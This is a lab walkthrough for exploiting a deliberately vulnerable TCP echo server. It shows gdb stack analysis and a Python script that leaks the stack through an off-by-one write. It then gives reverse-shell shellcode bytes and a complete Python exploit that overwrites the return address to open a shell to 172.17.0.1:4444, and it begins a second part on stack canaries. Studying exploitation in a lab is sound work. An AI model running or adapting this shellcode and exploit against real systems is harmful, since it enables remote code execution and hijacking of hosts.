


# tcp-echo-server

Simple TCP echo server with buffer overflow vulnerability (original source [here](https://github.com/polyverse/tcp-echo-server))

A minor change was made to the original to make the code easier to work with:

```
$ diff main.c.orig main.c
38a39,44
>       int enable = 1;
>       if (setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR, &enable, sizeof(enable)) < 0) {
>               fprintf(stderr, "Error on setsockopt(). Exiting...\n");
>               exit(EXIT_FAILURE);
>       }
> 
```

## tcp-echo-server-1

For the first exploit iteration, disable stack smashing protection (-fnostack-protector) and allow instruction execution on the stack (-z execstack).

Build the Docker container image with: `cd tcp-echo-server-1; docker build -t tcp-echo-server:latest .`

(Remove old images by adding `&& docker images -f dangling=true -q | xargs -r docker rmi`)

Launch an interactive shell within the container with: `docker run -it --rm -p 8080:8080 --entrypoint /bin/bash tcp-echo-server:latest`

The read() in the vuln_read() is vulnerable to a buffer overflow; can read as many as 1000 bytes into an 80 byte stack-backed buffer.

```c
#define BUFFER_SIZE 1000

void vuln_read(int client_fd)
{
        char buffer[80] = {0};  // initialize array with zeroes

        int n = read(client_fd, buffer, BUFFER_SIZE);
        printf("read: %d bytes\n", n);
  
        // echo input back to client
        write(client_fd, buffer, n + 1); // include null
}
```

Since stack smashing protection is disabled and stack instruction execution is allowed, the simpliest exploit is to arrange for buffer to contain shellcode and to overwrite the vuln_read() return address on the stack to return to that shellcode.

Gather some runtime info by launching the application with gdb:

```
[root@<containerid> polyverse]# gdb tcp-echo-server
<startup messages elided>
gdb-peda$ break vuln_read
Breakpoint 1 at 0xa50: file main.c, line 13.
gdb-peda$ run
Starting program: /opt/polyverse/tcp-echo-server
```

Connect to the server (say with netcat) and send some text to trigger the breakpoint.

```
<registers, code, stack dump elided>
Breakpoint 1, vuln_read (client_fd=0x8) at main.c:13
13              char buffer[80] = {0};  // initialize array with zeroes
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.x86_64
gdb-peda$ print &buffer
$0 = (char (*)[80]) 0x7fff5dc15ce0
gdb-peda$ print &n
$1 = (int *) 0x7fff5dc15d3c
gdb-peda$ print $rbp
$2 = (void *) 0x7fff5dc15d40
gdb-peda$ x/1xg $rbp
0x7fff5dc15d40: 0x00007fff5dc15db0
gdb-peda$ x/1xg $rbp+8
0x7fff5dc15d48: 0x0000558fbe231c5c
gdb-peda$ list *(*(long int *)($rbp+8)) # or just list *0x0000558fbe231c5c
0x558fbe231c5c is in main (main.c:66).
61                      if (client_fd < 0)
62                      fprintf(stderr, "Error on accept().\n");
63
64                      vuln_read(client_fd);
65
66                      close(client_fd);
67              }
68
69              close(server_fd);
70
```

With this the layout of the stack can be determined:



This information indicates the amount of space available for shellcode and the offset from the start of buffer to the frame return address.  The only piece of information needed is the actual address at the start of the buffer.

Refer back to vuln_read():

```c
        int n = read(client_fd, buffer, BUFFER_SIZE);
        printf("read: %d bytes\n", n);
  
        // echo input back to client
        write(client_fd, buffer, n + 1); // include null
```

Notice that n bytes are read from the socket but n + 1 bytes are written.  The comment is incorrect, the read() and write() functions do not insert extra null bytes.  This can be used to read values from stack after buffer:

```python
#!/usr/bin/env python3

import socket

host, port = '127.0.0.1', 8080

outbuf = b'a' * 80

for i in range(32):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    assert sock.send(outbuf) == len(outbuf)
    inbuf = sock.recv(1024)
    assert len(inbuf) == len(outbuf) + 1

    print('%02x' % inbuf[-1], end=' ', flush=True)
    outbuf += bytes([inbuf[-1]])

print()
```

Above outbuf gets bytes appended from the stack so that the stack is unmodified by this operation.

RBP is a fixed offset from the end of buffer which can be calculated from the stack layout determined earlier, here 16 bytes.  Similarly now the value of RBP is available and with it the address of buffer, here 208 byte offset.

```python
# code snippet above elided

import struct

# assuming a little endian system, change the format for big endian
rbp_value = struct.unpack('<Q', outbuf[80+16:80+24])[0]
buffer_addr = rbp_value - 208
```

Next is to write the shellcode and overwrite the frame return address to point to it.

Staring with [this](http://shell-storm.org/shellcode/files/shellcode-907.php) shellcode, modify the ip and port as needed.  It may be easier to extract and compile the assembly directly than work with the keystone module:

```sh
# compare shellcode-907.py.orig and shellcode-907.py
$ ./shellcode-907.py >shellcode.asm
$ nasm -f elf64 -o shellcode.o shellcode.asm

# extract the shellcode bytes (can be on a single line of course)
# TODO is there a better way to do this?
$ objdump -d shellcode.o | awk '/^ +[0-9a-f]+:/ { for (i=2; i<=NF; i++) { \
                                                      if ($i !~ /^[0-9a-f]{2}$/) \
                                                          break; \
                                                      printf("\\x%s", $i) \
                                                  } \
                                                } \
                                END { printf("\n") }' 
\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x97\xb0\x2a\x48\xb9\xfe\xff\xee\xa3\x53\xee\xff\xfe\x48\xf7\xd9\x51\x54\x5e\xb2\x10\x0f\x05\x6a\x03\x5e\xb0\x21\xff\xce\x0f\x05\x75\xf8\x99\xb0\x3b\x52\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x51\x54\x5f\x0f\x05
```

Should also verify it works correctly locally, be sure to compile with -z execstack:
```c
#include <stdio.h>

unsigned char code[] = "<shellcode from above>";

int main(void) {
    printf("shellcode length: %d\n", (int)sizeof(code)-1);
    ((void(*)())code)();
    return 0;
}
```

The remaining portion of the exploit follows:

```python
code = b'<shellcode from above>'

assert len(code) < 80
outbuf2 = code + (b'a' * (80 - len(code)))
outbuf2 += outbuf[80:80+24]
outbuf2 += struct.pack('<Q', buffer_addr)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((host, port))
assert sock.send(outbuf2) == len(outbuf2)
```

When executed a reverse shell on the specified ip and port (here 172.17.0.1:4444) will be opened.

## tcp-echo-server-2

For the next iteration, stack smashing protection is enabled (-fstack-protector-all) and instruction execution on the stack (-z execstack) remains allowed.

Stack smashing protection is implemented via stack canaries; random values on the stack before RBP that are checked on function termination to test if the stack beyond RBP has been corrupted.  Refer to the following disassembly of vuln_read():

```
gdb-peda$ disassem vuln_read
Dump of assembler code for function vuln_read:
   0x000055f718027aa5 <+0>:     push   rbp
   0x000055f718027aa6 <+1>:     mov    rbp,rsp
   0x000055f718027aa9 <+4>:     add    rsp,0xffffffffffffff80
   0x000055f718027aad <+8>:     mov    DWORD PTR [rbp-0x74],edi
   0x000055f718027ab0 <+11>:    mov    rax,QWORD PTR fs:0x28
   0x000055f718027ab9 <+20>:    mov    QWORD PTR [rbp-0x8],rax
   0x000055f718027abd <+24>:    xor    eax,eax
   0x000055f718027abf <+26>:    lea    rsi,[rbp-0x60]
   0x000055f718027ac3 <+30>:    mov    eax,0x0
   0x000055f718027ac8 <+35>:    mov    edx,0xa
   0x000055f718027acd <+40>:    mov    rdi,rsi
   0x000055f718027ad0 <+43>:    mov    rcx,rdx
   0x000055f718027ad3 <+46>:    rep stos QWORD PTR es:[rdi],rax
   0x000055f718027ad6 <+49>:    lea    rcx,[rbp-0x60]
   0x000055f718027ada <+53>:    mov    eax,DWORD PTR [rbp-0x74]
   0x000055f718027add <+56>:    mov    edx,0x3e8
   0x000055f718027ae2 <+61>:    mov    rsi,rcx
   0x000055f718027ae5 <+64>:    mov    edi,eax
   0x000055f718027ae7 <+66>:    call   0x55f7180278f0 <read@plt>
   0x000055f718027aec <+71>:    mov    DWORD PTR [rbp-0x64],eax
   0x000055f718027aef <+74>:    mov    eax,DWORD PTR [rbp-0x64]
   0x000055f718027af2 <+77>:    mov    esi,eax
   0x000055f718027af4 <+79>:    lea    rdi,[rip+0x28d]        # 0x55f718027d88
   0x000055f718027afb <+86>:    mov    eax,0x0
   0x000055f718027b00 <+91>:    call   0x55f7180278d0 <printf@plt>
   0x000055f718027b05 <+96>:    mov    eax,DWORD PTR [rbp-0x64]
   0x000055f718027b08 <+99>:    add    eax,0x1
   0x000055f718027b0b <+102>:   movsxd rdx,eax
   0x000055f718027b0e <+105>:   lea    rcx,[rbp-0x60]
   0x000055f718027b12 <+109>:   mov    eax,DWORD PTR [rbp-0x74]
   0x000055f718027b15 <+112>:   mov    rsi,rcx
   0x000055f718027b18 <+115>:   mov    edi,eax
   0x000055f718027b1a <+117>:   call   0x55f7180278a0 <write@plt>
=> 0x000055f718027b1f <+122>:   mov    rax,QWORD PTR [rbp-0x8]
   0x000055f718027b23 <+126>:   xor    rax,QWORD PTR fs:0x28
   0x000055f718027b2c <+135>:   je     0x55f718027b33 <vuln_read+142>
   0x000055f718027b2e <+137>:   call   0x55f7180278b0 <__stack_chk_fail@plt>
   0x000055f718027b33 <+142>:   leave  
   0x000055f718027b34 <+143>:   ret    
End of assembler dump.
```

The arrow points at the start of the check, briefly it compares the 64-bit word before RBP and compares it to a value in memory (initialized on startup) and calls __stack_chk_fail() if they do not match.

In addition the local variables on the stack have been rearranged:

```
gdb-peda$ print &buffer
$0 = (char (*)[80]) 0x7ffe287fa670
gdb-peda$ print &n     
$1 = (int *) 0x7ffe287fa66c
gdb-peda$ print $rbp
$2 = (void *) 0x7ffe287fa6d0
gdb-peda$ x/1xg $rbp
0x7ffe287fa6d0: 0x00007ffe287fa740
gdb-peda$ x/1xg $rbp+8
0x7ffe287fa6d8: 0x000055f718027cee
gdb-peda$ list *(*(long int *)($rbp+8))
0x55f718027cee is in main (main.c:66).
61                      if (client_fd < 0)
62                      fprintf(stderr, "Error on accept().\n");
63
64                      vuln_read(client_fd);
65
66                      close(client_fd);
67              }
68
69              close(server_fd);
70
gdb-peda$ x/1xg $rbp-8
0x7ffe287fa6c8: 0xcfc8717eb4aecc00
```




